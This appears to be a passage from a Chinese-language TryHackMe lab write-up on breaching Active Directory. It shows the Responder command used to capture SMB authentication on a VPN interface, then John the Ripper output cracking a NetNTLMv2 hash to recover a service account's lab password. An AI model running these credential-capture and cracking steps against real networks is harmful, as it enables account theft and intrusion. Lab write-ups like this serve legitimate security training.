 在本地开启responder
```
responder -I tun0 -v
```

等待一段时间，收到认证的smb流量

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659949962469.jpg)

破解哈希
```
┌──(root💀kali)-[~/tryhackme/BreachingActiveDireectory]
└─# john --wordlist=passwordlist.txt hash.txt                 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
FPassword1!      (svcFileCopy)     
1g 0:00:00:00 DONE (2022-08-08 05:11) 100.0g/s 51300p/s 51300c/s 51300C/s 123456..hockey
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```
